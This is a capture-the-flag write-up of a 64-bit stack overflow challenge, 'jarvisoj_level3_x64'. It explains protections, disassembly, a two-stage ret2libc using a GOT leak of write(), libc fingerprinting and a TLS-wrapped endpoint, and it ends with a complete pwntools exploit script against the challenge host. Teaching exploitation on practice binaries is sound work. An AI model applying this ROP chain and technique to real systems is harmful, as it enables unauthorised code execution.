




<div align="center">

# 🧬 jarvisoj_level3_x64

### Pwn Writeup · Dynamic `ret2libc` via GOT Leak (x86-64)


*No `system()`, no `"/bin/sh"`, no problem — leak it, derive it, and loop back for seconds.*

</div>

---

## 📌 TL;DR

A 64-bit, dynamically linked, No-PIE, no-canary binary with NX enabled and **no `system()` or `"/bin/sh"` anywhere inside it**. We overflow a 128-byte stack buffer, use a short ROP chain to leak `write()`'s real runtime address from the GOT, derive `system()`'s address from it, loop back into the vulnerable function for a second shot, stage our own `"/bin/sh"` string into `.bss`, and call `system()`. Along the way: a `libc` version mismatch between local and remote, and a TLS-wrapped TCP endpoint — both diagnosed and fixed.

| | |
|---|---|
| **Binary** | `jarvis3` — ELF 64-bit, dynamically linked, No PIE |
| **Bug** | `read(0, buf, 0x200)` into a 128-byte stack buffer |
| **Protections** | Canary **off** · NX **on** · PIE **off** · RELRO **none** |
| **Missing ingredients** | No `system`, no `"/bin/sh"` string in the binary |
| **Primitive** | GOT leak → compute `system()` → two-stage overflow → `.bss`-staged shell string |
| **Gotchas fixed** | `libc` build mismatch (fingerprinted via libc-database) · TLS-wrapped TCP |
| **Result** | Shell |

---

## 🗺️ Table of Contents

1. [Recon](#1--recon)
2. [Disassembly & C Reconstruction](#2--disassembly-and-c-reconstruction)
3. [Offset Calculation](#3--offset-calculation)
4. [Exploitation Strategy](#4--exploitation-strategy)
5. [`libc` Version Mismatch](#5--libc-version-mismatch-local-vs-remote)
6. [SSL-Wrapped TCP](#6--ssl-wrapped-tcp)
7. [Full Exploit](#7--full-exploit)
8. [Summary](#8--summary)
9. [Key Takeaways](#9--key-takeaways)
10. [Quiz Yourself](#10--quiz-yourself--what-if-questions)

---

## 🧭 Exploit Flow at a Glance



---

## 1. 🔎 Recon

### 1.1 File identification

```bash
file jarvis3
```

```
jarvis3: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked,
interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, not stripped
```

Key fact: **dynamically linked**. Unlike a statically linked binary, the executable does not embed the full `libc` code. Instead, at process start, the dynamic loader (`ld-linux-x86-64.so.2`) maps the real `libc.so.6` into the process' address space and resolves imported symbols (`read`, `write`, etc.) at runtime. This has one critical consequence for an attacker: **`libc`'s base address is randomized by ASLR independently of the main binary**, even when the main binary itself is non-PIE.

### 1.2 Protections

```bash
checksec --file=jarvis3
```

```
Arch:       amd64-64-little
RELRO:      No RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
Stripped:   No
```

| Protection | Status | Impact on exploitation |
|---|---|---|
| Canary | None | No need to leak/preserve a stack cookie; a raw offset-based overflow is enough. |
| NX | Enabled | The stack is non-executable — classic shellcode-on-stack is impossible. Forces a **ROP**-based approach. |
| PIE | Disabled (base `0x400000`) | Every address *inside the binary itself* (code, GOT entries, `.bss`) is fixed and known ahead of time, without needing to leak anything for the binary. |
| RELRO | None | The GOT remains writable at runtime, which isn't exploited here, but it's worth noting for completeness. |

No PIE + No canary + NX enabled is the textbook setup for a **ret2libc** exploit: we can't execute shellcode, but we *can* build a ROP chain reliably because all binary-internal addresses are static.

### 1.3 Symbol / import enumeration

```bash
nm jarvis3 | grep -E ' [TtUu] '
```

```
0000000000400520 t deregister_tm_clones
00000000004005a0 t __do_global_dtors_aux
00000000004006c4 T _fini
00000000004005c0 t frame_dummy
0000000000400480 T _init
00000000004006c0 T __libc_csu_fini
0000000000400650 T __libc_csu_init
                 U __libc_start_main@@GLIBC_2.2.5
000000000040061a T main
                 U read@@GLIBC_2.2.5
0000000000400560 t register_tm_clones
00000000004004f0 T _start
00000000004005e6 T vulnerable_function
                 U write@@GLIBC_2.2.5
```

Only `read` and `write` are imported from `libc`. There is **no `system`, no `printf`, and no `/bin/sh` string anywhere in the binary**:

```bash
strings -a jarvis3 | grep -i bin
```

```
(no output)
```

This rules out a trivial `ret2win`/`ret2system` and confirms we must:
1. Leak a real `libc` address at runtime (to defeat `libc`'s ASLR).
2. Derive `system()`'s address from that leak.
3. Supply our own `"/bin/sh"` string, since none exists in the binary.

---

## 2. 🧩 Disassembly and C Reconstruction

### 2.1 `main`

```asm
000000000040061a <main>:
  40061a: push   rbp
  40061b: mov    rbp,rsp
  40061e: sub    rsp,0x10
  400622: mov    DWORD PTR [rbp-0x4],edi
  400625: mov    QWORD PTR [rbp-0x10],rsi
  400629: mov    eax,0x0
  40062e: call   4005e6 <vulnerable_function>
  400633: mov    edx,0xe
  400638: mov    esi,0x4006dc
  40063d: mov    edi,0x1
  400642: call   4004b0 <write@plt>
  400647: leave
  400648: ret
```

- `main` stores `argc`/`argv` locally (unused), calls `vulnerable_function()`, then calls `write(1, 0x4006dc, 14)` — printing `"Hello, World!\n"`.
- Note the x86-64 **System V calling convention** in action: arguments go in registers, not on the stack — `edi`=fd, `esi`=buffer, `edx`=length, in that order for the first three integer/pointer args.

### 2.2 `vulnerable_function`

```asm
00000000004005e6 <vulnerable_function>:
  4005e6: push   rbp                     ; frame pointer saved -> standard +8 padding rule applies
  4005e7: mov    rbp,rsp
  4005ea: add    rsp,0xffffffffffffff80  ; == sub rsp, 0x80  (two's complement: 0xff...80 = -128)
  4005ee: mov    edx,0x7
  4005f3: mov    esi,0x4006d4
  4005f8: mov    edi,0x1
  4005fd: call   4004b0 <write@plt>      ; write(1, "Input:\n", 7)
  400602: lea    rax,[rbp-0x80]          ; rax = &buf (start of the 128-byte stack buffer)
  400606: mov    edx,0x200               ; edx = 0x200 = 512  <-- read length, far bigger than the buffer!
  40060b: mov    rsi,rax
  40060e: mov    edi,0x0
  400613: call   4004c0 <read@plt>       ; read(0, buf, 0x200)
  400618: leave
  400619: ret
```

**The bug:** a 128-byte stack buffer (`rbp-0x80`) is filled via `read()` with a length of `0x200` (512) bytes — **4x larger than the buffer**. This is a classic, unconstrained stack buffer overflow.

### 2.3 Reconstructed C source

```c
#include <unistd.h>

void vulnerable_function(void) {
    char buf[128];                    // rbp-0x80 -> 0x80 = 128 bytes

    write(1, "Input:\n", 7);
    read(0, buf, 0x200);              // BUG: reads up to 512 bytes into a 128-byte buffer
}

int main(int argc, char *argv[]) {
    vulnerable_function();
    write(1, "Hello, World!\n", 14);
    return 0;
}
```

Everything else `nm`/`objdump` surfaces (`_start`, `__libc_csu_init`, `frame_dummy`, `register_tm_clones`, …) is compiler/linker boilerplate common to every dynamically linked glibc binary — not application logic, and irrelevant to the reconstruction.

---

## 3. 📏 Offset Calculation



Since `vulnerable_function` uses a standard frame (`push rbp; mov rbp,rsp`), the padding formula is:

```
padding = (distance from buffer start to rbp) + 8
        = 0x80 + 8
        = 128 + 8
        = 136 bytes
```

Why **+8** and not **-8**: the buffer starts at `rbp-0x80`. To reach `rbp` itself we must advance 128 bytes. `rbp` (the saved frame pointer) itself occupies 8 bytes on the stack; to walk *past* it and reach the return address, those 8 bytes must be added, not subtracted:

```
[rbp-0x80]  buffer start        \
   ...                           } 128 bytes to fill
[rbp+0x00]  saved rbp (8 bytes) ---> +8
[rbp+0x08]  return address      <-- target (byte 137 onward)
```

This was confirmed empirically by letting `read()` return and inspecting `$rdx` / stack contents in `gdb`, rather than trusting the arithmetic blindly.

---

## 4. 🎯 Exploitation Strategy

### 4.1 Why not a simple ret2win?

`system()` and `"/bin/sh"` are not present anywhere in the binary (see §1.3). A pure ret2win/ret2func is not possible. We must build the primitives ourselves at runtime.

### 4.2 Why ASLR on `libc` matters even with No PIE

`No PIE` only fixes the *main binary's* load address. The separate `libc.so.6` mapped by the dynamic loader is **independently randomized** on every execution (standard ASLR for shared objects). This means the absolute address of `system()` changes every run and cannot be hardcoded.

### 4.3 The GOT as a leak primitive

Because the binary is dynamically linked, calls like `write@plt` are resolved through the **Global Offset Table (GOT)** — a table of pointers, located at a fixed address (because the binary is No PIE), that the dynamic loader fills with the *real* runtime address of each imported `libc` function on first call.

```bash
objdump -R jarvis3
```

```
OFFSET           TYPE              VALUE
0000000000600a58 R_X86_64_JUMP_SLOT  write@GLIBC_2.2.5
0000000000600a60 R_X86_64_JUMP_SLOT  read@GLIBC_2.2.5
0000000000600a68 R_X86_64_JUMP_SLOT  __libc_start_main@GLIBC_2.2.5
```



The GOT entry's **address** is fixed and known. Its **contents** (once resolved) is a live `libc` address. If we can make the program `write()` out the 8 bytes stored *at* `0x600a58` (the GOT slot for `write`), we leak `write`'s real runtime address inside `libc`. Since the *relative layout* of a given `libc` build never changes, `system`'s address can then be derived as:

```
system_addr = leaked_write_addr - offset(write, this_libc_build)
            = libc_base + offset(system, this_libc_build)
```

### 4.4 Two-stage design

A single ROP chain cannot both leak an address *and* use it — the chain is built before the program runs, but the leaked value is only known after it runs. The solution is a **two-stage attack**:

- **Stage 1** overflows the buffer, calls `write(1, &GOT[write], 8)` to leak `write`'s runtime address, then **redirects execution back into `vulnerable_function`** instead of exiting — giving us a second overflow opportunity in the same process.
- Because we never left the process (no re-exec of the binary), `rbp`/`rsp` for `vulnerable_function` are **identical** between the two stages — ASLR only randomizes the stack base once, at process start, not per function call.
- **Stage 2**, now armed with the real `system()` address (computed locally with pwntools from the Stage-1 leak), performs the final overflow to spawn a shell.



### 4.5 Supplying `"/bin/sh"`

No usable string exists in the binary. Two options exist:

- Write it to the **stack** buffer itself and reference its address.
- Write it to **`.bss`**.

The stack address of our own buffer, while computable in theory, proved **unreliable in practice**: an address hardcoded from a `gdb` session did not match the address during a direct/`pwntools` execution (different process environment → different stack layout, even with the binary itself being No PIE). `.bss`, being part of the binary's static layout, is immune to this problem:

```bash
readelf -S jarvis3 | grep -A1 bss
```

```
[25] .bss   NOBITS   0000000000600a88  00000a88
     0000000000000008  ...
```

`.bss` starts at the fixed address `0x600a88` (8 bytes available — exactly enough for `"/bin/sh\x00"`). Stage 2 therefore first calls `read(0, 0x600a88, 8)` to write `"/bin/sh\x00"` into `.bss`, then calls `system(0x600a88)`.

### 4.6 ROP gadgets

```bash
ROPgadget --binary jarvis3 --only "pop|ret" | grep -E "rdi|rsi|rdx"
```

```
0x00000000004006b3 : pop rdi ; ret
0x00000000004006b1 : pop rsi ; pop r15 ; ret
```

- `pop rdi ; ret` lets us place an arbitrary attacker-controlled value into `rdi` (1st argument) — unlike a `mov rdi, <const>; ret` gadget, which would be fixed and useless to us, `pop` reads from the stack, which we fully control via the overflow.
- `pop rsi ; pop r15 ; ret` sets `rsi` (2nd argument) at the cost of also popping (and discarding) a value into the unused `r15`.
- **No `pop rdx ; ret` gadget exists in this binary.** `rdx` (3rd argument) is left at whatever value it held before the overflow. This was verified empirically (`gdb`, `info registers rdx` right after `read@plt` returns, before `leave`) to still hold `0x200` — the `read()` length used just before the overflow. `0x200` (512) is an oversized but harmless read/write length for both `write(1, &GOT[write], 0x200)` and `read(0, bss_addr, 0x200)`: it leaks/reads extra trailing bytes, but `pwntools` only consumes the 8 bytes it needs, so the surplus is simply ignored. Relying on this is **not guaranteed by the x86-64 calling convention** (`rdx` is caller-saved — no ABI rule says it must survive a call) and was confirmed experimentally rather than assumed.

---

## 5. 🧪 `libc` Version Mismatch (Local vs. Remote)

The exploit worked flawlessly against a **local** copy of the binary, but crashed (`SIGSEGV`) against the **remote** CTF instance. Root cause: the offset between `write` and `system` **inside the `libc` binary itself differs between `glibc` builds/versions**. The exploit script, as written, derived `system`'s offset from the *local* system's `libc.so.6` (a modern Ubuntu 22.x build) — which does not match the remote server's (much older) `libc`.

### 5.1 Fingerprinting the remote `libc`

The low 12 bits of any leaked `libc` address (the offset within the final `0x1000`-aligned page) are **invariant under ASLR** and act as a fingerprint for the exact `libc` build in use:

```bash
./find write 2b0
```

```
ubuntu-xenial-amd64-libc6 (id libc6_2.23-0ubuntu10_amd64)
```

A single query against [`libc-database`](https://github.com/niklasb/libc-database) using the leaked `write()` address's last 3 hex digits (`2b0`) uniquely identified the remote `libc` as **glibc 2.23, Ubuntu 16.04 (xenial)**.

### 5.2 Fix

Simply point `pwntools`' `ELF()` object at the matching `.so` file (obtained from a local `glibc-all-in-one` / `libc-database` cache) instead of the host system's `libc`:

```python
libc = ELF('.../libc-database/db/libc6_2.23-0ubuntu10_amd64.so')
```

No other code changes are required — `libc.symbols['write']` / `libc.symbols['system']` dereference whichever `ELF` object `libc` points to, so swapping the backing file transparently fixes every downstream offset calculation.

**Takeaway:** never assume the remote target shares your local `libc` build. Always fingerprint and pin the exact version before computing cross-binary offsets.

---

## 6. 🔒 SSL-Wrapped TCP

A second, unrelated remote-only issue: connecting with plain `pwntools.remote()` raised an immediate `EOFError` on `recvuntil()`, *before* any payload was even sent. Testing the raw socket with `ncat`:

```bash
ncat --ssl --ssl-servername <host> <host> 9999
```

confirmed the challenge's TCP endpoint is wrapped in TLS (common on some modern CTF hosting infrastructures that proxy/terminate connections). The fix is to tell `pwntools` to negotiate TLS:

```python
p = remote(HOST, PORT, ssl=True, sni=HOST)
```

**Takeaway:** when `remote()` fails with no readable error (`EOFError` with zero bytes received), test the raw transport layer with `nc`/`ncat` before assuming the exploit logic itself is wrong.

---

## 7. 🚀 Full Exploit

```python
from pwn import *

context.arch = 'amd64'
context.log_level = 'info'

HOST = '574fa661dc1437b82af0410f.tcp-ctf2.dasctf.com'
PORT = 9999

elf  = ELF('./jarvis3')
libc = ELF('./libc6_2.23-0ubuntu10_amd64.so')   # fingerprinted via libc-database

p = remote(HOST, PORT, ssl=True, sni=HOST)

# --- fixed addresses (No PIE binary) ---
vuln_func   = 0x4005e6
write_plt   = 0x4004b0
read_plt    = 0x4004c0
got_write   = 0x600a58
bss_addr    = 0x600a88
pop_rdi     = 0x4006b3
pop_rsi_r15 = 0x4006b1

padding = b'A' * 136   # 128-byte buffer + 8-byte saved rbp

# ---------------------------------------------------------------
# Stage 1: leak write()'s runtime address via the GOT, then loop
# back into vulnerable_function() for a second overflow.
# ---------------------------------------------------------------
payload1  = padding
payload1 += p64(pop_rdi)
payload1 += p64(1)                 # fd = stdout
payload1 += p64(pop_rsi_r15)
payload1 += p64(got_write)         # buf = &GOT[write]
payload1 += p64(0)                 # dummy r15
payload1 += p64(write_plt)         # write(1, &GOT[write], rdx=0x200 [leftover])
payload1 += p64(vuln_func)         # return into vulnerable_function again

p.recvuntil(b'Input:\n')
p.send(payload1)

leak = p.recv(8)
write_addr = u64(leak)
log.info(f"Leaked write() address: {hex(write_addr)}")

libc.address = write_addr - libc.symbols['write']
log.info(f"libc base: {hex(libc.address)}")

system_addr = libc.symbols['system']
log.info(f"system() address: {hex(system_addr)}")

# ---------------------------------------------------------------
# Stage 2: write "/bin/sh\x00" into .bss (fixed address, unlike
# the stack, whose address differs between gdb and bare execution),
# then call system(bss_addr).
# ---------------------------------------------------------------
payload2  = padding
payload2 += p64(pop_rdi)
payload2 += p64(0)                 # fd = stdin
payload2 += p64(pop_rsi_r15)
payload2 += p64(bss_addr)          # buf = .bss
payload2 += p64(0)                 # dummy r15
payload2 += p64(read_plt)          # read(0, bss_addr, rdx=0x200 [leftover])
payload2 += p64(pop_rdi)
payload2 += p64(bss_addr)          # argv for system()
payload2 += p64(system_addr)       # system(bss_addr)

p.send(payload2)
p.send(b'/bin/sh\x00')

p.interactive()
```

---

## 8. 📊 Summary

| Step | Technique |
|---|---|
| Overflow discovery | `read(0, buf, 0x200)` into a 128-byte stack buffer |
| Offset | `128 + 8 = 136` bytes (frame-pointer-based binary) |
| Bypass NX | ROP (`pop rdi;ret` / `pop rsi;pop r15;ret` gadgets) |
| Bypass `libc` ASLR | GOT leak of `write()`'s runtime address |
| Missing `system`/`"/bin/sh"` | Computed `system` via leaked offset; wrote `"/bin/sh"` into fixed `.bss` |
| Second overflow opportunity | Returned into `vulnerable_function` (two-stage attack) |
| Local/remote `libc` mismatch | Fingerprinted exact build via `libc-database`, using the leaked address's low 12 bits |
| Remote connection failure | Diagnosed TLS-wrapped TCP with `ncat --ssl`; fixed with `remote(..., ssl=True, sni=...)` |

---

## 9. 🧠 Key Takeaways

- **No `system`/`"/bin/sh"` in the binary doesn't mean ret2libc is off the table** — it means you need *two* extra primitives before you have the usual two ret2win ingredients: a live `libc` address (via a leak) and a writable location for your own string (`.bss`, since the stack's address isn't reliable across execution environments — see below).
- **The GOT is not just "where functions live" — it's a readable table of runtime addresses.** Any already-imported function's GOT slot can be leveraged as a leak target, even if the function you actually want (`system`) was never imported at all. You only need *one* imported function (here, `write` itself) to bootstrap the whole chain.
- **`rdx` surviving a `read()`/`write()` call with its prior value (`0x200`) is not guaranteed by the ABI — it's caller-saved, not callee-saved.** It happened to work here because `read@plt`'s implementation doesn't clobber it, but this was confirmed with `gdb` (`info registers rdx` right after the call), not assumed from the calling convention alone. Relying on uninspected register leftovers is a real technique, but only *after* verifying it empirically for the specific binary/libc in play.
- **An oversized `rdx` (512 instead of 8) isn't automatically a bug in your exploit.** `write()`/`read()` will happily read/write past the 8 bytes you actually care about; as long as the surrounding memory is mapped and readable/writable, the call succeeds and you simply discard the extra bytes on the receiving end (`p.recv(8)`).
- **A hardcoded stack address from a `gdb` session is not portable to a bare/`pwntools` execution of the same binary**, even with ASLR "disabled-by-default-for-children" in `gdb` and even with No PIE. Environment differences (argv, envp, exact exec path) shift the stack base. `.bss`/`.data` addresses, being part of the binary's own fixed layout, don't have this problem — prefer them over the stack whenever you need a *stable, write-then-reuse* address across multiple calls.
- **"It worked locally but not remotely" is very often a `libc` version mismatch, not a logic bug.** The computed `libc_base` can look completely sane (a valid `0x7f...` address) while the *derived* `system` offset is still wrong, because that offset is specific to one exact glibc build. Always fingerprint the remote `libc` from a leak (last 3 hex digits via `libc-database`/`find`) before trusting cross-build offset math.
- **A silent `EOFError` on the very first `recvuntil()` — before any payload is sent — is a transport-layer problem, not an exploit-logic problem.** Test with `nc`/`ncat --ssl` first; don't start debugging padding or gadgets for a connection that never properly opened.
- **Two-stage exploitation hinges on one fact: ASLR randomizes the stack base once per process, not once per function call.** Looping back into the same vulnerable function via a crafted return address reuses the *exact same* `rbp`/`rsp`, which is what makes "leak now, exploit next" reliable within a single connection.

---

## 10. 🧩 Quiz Yourself — "What if...?" Questions

Try answering each of these *before* opening the explanation.

1. **What if `rdx` had been `0x4` instead of `0x200` after `read()` returned (i.e., too small to leak a full 8-byte address)?**
   <details><summary>Answer</summary>
   <code>write(1, &GOT[write], 4)</code> would only leak the low 4 bytes of the address. Not fatal, but it means <code>u64(leak)</code> can't be used directly — you'd need to <code>recv(4)</code>, zero/pad the remaining high bytes (<code>leak.ljust(8, b'\x00')</code>), and accept you only know the low 32 bits of <code>write</code>'s address. Since <code>libc</code> is still mapped on a <code>0x1000</code>-aligned page and the high bits of a <code>libc</code> base are fairly predictable within a given kernel/arch (though not guaranteed), this <em>might</em> still be enough, but it's a much weaker leak than the full 8 bytes we got here for free.
   </details>

2. **What if there had been no `pop rsi; pop r15; ret` gadget at all — only `pop rdi; ret`?**
   <details><summary>Answer</summary>
   We'd be stuck controlling only the first argument of any call. The fix is to look for a different gadget shape (e.g. inside <code>__libc_csu_init</code>, which commonly contains a <code>pop rbx; pop rbp; pop r12; pop r13; pop r14; pop r15; ret</code>-style gadget pair in exactly this kind of small, No-PIE, dynamically linked binary) — <code>__libc_csu_init</code>'s "universal gadget" is the classic fallback when a binary is too small to naturally contain clean <code>pop rsi</code>/<code>pop rdx</code> gadgets.
   </details>

3. **What if `.bss` had been 0 bytes (no writable, zero-initialized global data at all)?**
   <details><summary>Answer</summary>
   We couldn't stage <code>"/bin/sh"</code> there. The next option would be using a <em>known-stable</em> writable region elsewhere in the binary's own mapped segments (e.g. part of <code>.data</code> if any exists), or — since we already proved the two-stage loop works — using the stack buffer itself as the string's location <strong>within the same call</strong> that uses it (write <code>/bin/sh</code> into the buffer via the overflow payload itself, then reference that buffer's address, computed relative to the <em>current</em> <code>rsp</code>/<code>rbp</code> of that very call, rather than hardcoded from a separate debugging session).
   </details>

4. **What if the remote `libc-database` lookup (`find write 2b0`) had returned 3 different candidate builds instead of exactly 1?**
   <details><summary>Answer</summary>
   A single 3-hex-digit fingerprint isn't always unique across the thousands of builds in the database. The fix is to leak a <em>second</em> function's address (e.g. <code>read</code>, which is also imported) and re-run <code>find</code> with both fingerprints together (<code>find write 2b0</code> intersected with <code>find read &lt;its offset&gt;</code>) — <code>libc-database</code>'s <code>find</code> supports narrowing results this way, and two independent fingerprints are exponentially less likely to collide on the wrong build than one.
   </details>

5. **What if `vulnerable_function` had called `exit()` instead of `ret`-ing back to `main` normally — would the two-stage loop still work?**
   <details><summary>Answer</summary>
   Irrelevant to us either way, since we never let it return to <code>main</code> at all — Stage 1's crafted return address points directly back into <code>vulnerable_function</code>, overriding whatever the original function would have done next. The two-stage trick works by <strong>hijacking the return address itself</strong>, not by relying on the function's own natural control flow after the overflowed <code>read()</code>.
   </details>

6. **What if RELRO had been `Full` instead of `None`?**
   <details><summary>Answer</summary>
   Full RELRO makes the GOT read-only <em>after</em> the dynamic linker finishes resolving all symbols at startup. It does <strong>not</strong> prevent reading from the GOT (our leak still works fine), only writing to it (which we never needed to do here — we only overwrite the <em>return address</em> on the stack, never a GOT entry). A GOT-leak-based ret2libc like this one is unaffected by RELRO; GOT-overwrite techniques (a different, more invasive class of attack) are the ones RELRO specifically targets.
   </details>

---


<div align="center">

⭐ If this writeup helped you, consider leaving a star.

</div>
